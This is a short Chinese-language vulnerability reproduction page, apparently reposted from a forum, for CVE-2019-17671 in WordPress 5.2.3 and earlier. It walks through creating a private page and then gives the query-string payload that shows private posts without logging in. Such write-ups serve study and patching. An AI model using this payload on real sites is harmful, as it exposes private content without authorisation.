






# （CVE-2019-17671）Wordpress <= 5.2.3未授权访问

> 原文：[https://www.zhihuifly.com/t/topic/3265](https://www.zhihuifly.com/t/topic/3265)

# （CVE-2019-17671）Wordpress <= 5.2.3未授权访问

## 一、漏洞简介

wordpress 爆出最新的查看未经身份验证的文章漏洞，
该漏洞源于程序没有正确处理静态查询，
攻击者可利用该漏洞未经认证查看部分内容

## 二、漏洞影响

WordPress <= 5.2.3

### 三、复现过程



## 登陆后台新建私密页面



### 随便填入内容，选择私密，发布



### 访问前台页面，退出登陆，模拟外部访问



### 漏洞利用

直接访问，查看不了私密文章



输入payload访问，即可未授权访问所有文章

```
url+/?static=1&order=asc 
```

